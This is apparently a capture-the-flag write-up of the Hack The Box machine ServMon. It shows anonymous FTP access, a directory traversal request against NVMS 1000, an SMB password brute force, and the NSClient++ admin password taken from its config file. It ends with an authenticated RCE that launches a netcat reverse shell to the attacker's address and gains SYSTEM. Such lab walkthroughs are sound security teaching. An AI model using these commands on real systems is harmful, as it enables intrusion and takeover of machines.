



# ServMon

<table>
    <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Linux</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Easy</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>20</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>11 Apr 2020</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.184</td>
    </tr>
</table>

## Summary

This machine begins with finding notes about files through anonymous FTP access. We take advantage of a directory traversal attack in the web server in order to read these files and compromise a user account. To escalate to root, we find the Administrator password to the NSClient++ service in plaintext and take advantage of a remote code execution vulnerability to get a shell as Administrator.

## Foothold

To begin, we will add the entry `10.10.10.184 servmon.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV -T4 servmon.htb 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-07 16:38 EDT
Nmap scan report for servmon.htb (10.10.10.184)
Host is up (0.33s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp   open  http
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|     AuthInfo:
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|_    </html>
|_http-title: Site doesn't have a title (text/html).
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  tcpwrapped
6699/tcp open  napster?
8443/tcp open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     mputer.
|     checks.
|_    jobs
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
```

From this, we see things open like FTP, SSH, HTTP, common Windows ports, and NSClient++ on port 8443. To start, we will look at FTP since it allows anonymous access and we are dropped into the Users folder.

```
# ftp servmon.htb 
Connected to servmon.htb.
220 Microsoft FTP Service
Name (servmon.htb:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:05PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
```

In Nadine's folder, we see `confidential.txt` and in Nathan's folder we see `Notes to do.txt`.

```
# cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine

# cat Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

In this FTP login, we are not allowed to see any folders in either users' home so we cannot view `Passwords.txt`. There is no more information to get from this so we will try to enumerate the web server for more information. We'll browse to `http://servmon.htb`.



Since we don't have any credentials right now, we can try to see if there are any exploits available for NVMS.

```
# searchsploit nvms
------------------------------------------------------- ---------------------------------
 Exploit Title                                         |  Path
------------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                        | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Mo | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow     | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                    | hardware/webapps/48311.py
------------------------------------------------------- ---------------------------------
```

There is a directory traversal attack explained in `47774.txt` which shows a simple GET request as an example.

```
POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

Using this, we might be able to view the `Passwords.txt` file. Let's try this using Burp repeater.



Now that we have two users and a list of passwords, we can check to see if any of them are valid. We will use the SMB login module in Metasploit. We will put our users and passwords in `users.txt` and `passwords.txt` respectively.

```
msf5 > use auxiliary/scanner/smb/smb_login 
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS servmon.htb
RHOSTS => servmon.htb
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.184:445      - 10.10.10.184:445 - Starting SMB login bruteforce
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:1nsp3ctTh3Way2Mars!',
[!] 10.10.10.184:445      - No active DB -- Credential data will not be saved!
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:Th3r34r3To0M4nyTrait0r5!',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:B3WithM30r4ga1n5tMe',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:L1k3B1gBut7s@W0rk',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:0nly7h3y0unGWi11F0l10w',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:IfH3s4b0Utg0t0H1sH0me',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:Gr4etN3w5w17hMySk1Pa5',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nadine:1nsp3ctTh3Way2Mars!',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nadine:Th3r34r3To0M4nyTrait0r5!',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nadine:B3WithM30r4ga1n5tMe',
[+] 10.10.10.184:445      - 10.10.10.184:445 - Success: '.\nadine:L1k3B1gBut7s@W0rk'
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:1nsp3ctTh3Way2Mars!',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:Th3r34r3To0M4nyTrait0r5!',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:B3WithM30r4ga1n5tMe',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:L1k3B1gBut7s@W0rk',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:0nly7h3y0unGWi11F0l10w',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:IfH3s4b0Utg0t0H1sH0me',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:Gr4etN3w5w17hMySk1Pa5',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:',
[*] servmon.htb:445       - Scanned 1 of 1 hosts (100% complete)
```

## User

We see that we have one valid login - `nadine:L1k3B1gBut7s@W0rk`. We can now simply login as Nadine using SSH and get the user flag.

```
# ssh nadine@servmon.htb
nadine@servmon.htb's password: 
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>cd Desktop

nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
70832c**************************
```

## Root

One of the services running that we did not explore was NSClient++. There are several exploits for this service.

```
# searchsploit nsclient++
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution     | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                    | windows/local/46802.txt
-------------------------------------------------------------- ---------------------------------
```

We can verify our version of NSClient++ by navigating to its folder and interacting with the binary.

```
nadine@SERVMON C:\Program Files\NSClient++>nscp --version
NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64
```

For both exploits, we need some form of authentication. `46802.txt` notes that we can get the admin password simply by looking in the configuration file.

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
...
; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
...
```

We now have the administrator password for NSClient++ and we also note that the service is only available from inside the box. In order to get around this, we can set up SSH remote port forwarding on our local box.

```
# ssh -L 8443:127.0.0.1:8443 nadine@servmon.htb
```

We can verify this worked by trying to browse to `https://127.0.0.1:8443` and we see the login page.



The exploit we are going to use, however, does not interact with the GUI. We will use the remote code execution vulnerability in `48360.txt`. It is a simple Python script to execute a command. Before doing this, we will transfer `nc64.exe` to the machine to get a simple reverse shell. We will then set up our listener and get the root shell.

```
# python rce.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c "c:\temp\nc.exe 10.10.14.130 1234 -e cmd.exe"
[!] Targeting base URL https://127.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: RldzrIPJGK)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
[!] Timeout exceeded. Assuming your payload executed . . .
```

```
# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.130] from (UNKNOWN) [10.10.10.184] 49731
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>cd ..\..\Users\Administrator\Desktop
cd ..\..\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
401177**************************
```
